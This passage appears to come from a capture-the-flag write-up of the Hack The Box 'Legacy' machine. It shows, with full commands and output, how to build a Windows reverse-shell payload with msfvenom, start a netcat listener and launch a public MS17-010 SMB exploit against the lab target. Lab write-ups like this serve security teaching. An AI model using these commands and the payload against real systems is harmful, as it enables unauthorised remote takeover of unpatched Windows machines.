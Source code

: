 And it can be seen that the target is vulnerable to the infamous MS17-010 RCE. Through some quick googling we can find [this](https://github.com/helviojunior/MS17-010) exploit (This needs python2 or 2.7). We can quickly clone this repository and create a reverse connection payload using `msfvenom` as shown below:

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=1337 -f exe -o ms17-010.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: ms17-010.exe
```

Now the next task is to start a local listener on the port that we used to create the payload:

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy/MS17-010]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
```

And the use the `send_and_execute.py` from the MS17-010 repository to send and execute the payload that we just created.

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy/MS17-010]
└─$ python2.7 send_and_execute.py 10.10.10.4 ../ms17-010.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86507da8
SESSION: 0xe105ac18
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe108ef10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe108efb0
overwriting token UserAndGroups
Sending file QDBFG6.exe...
Opening SVCManager on 10.10.10.4.....
Creating service IAqU.....
Starting service IAqU.....
The NETBIOS connection with the remote host timed out.
Removing service IAqU.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
```
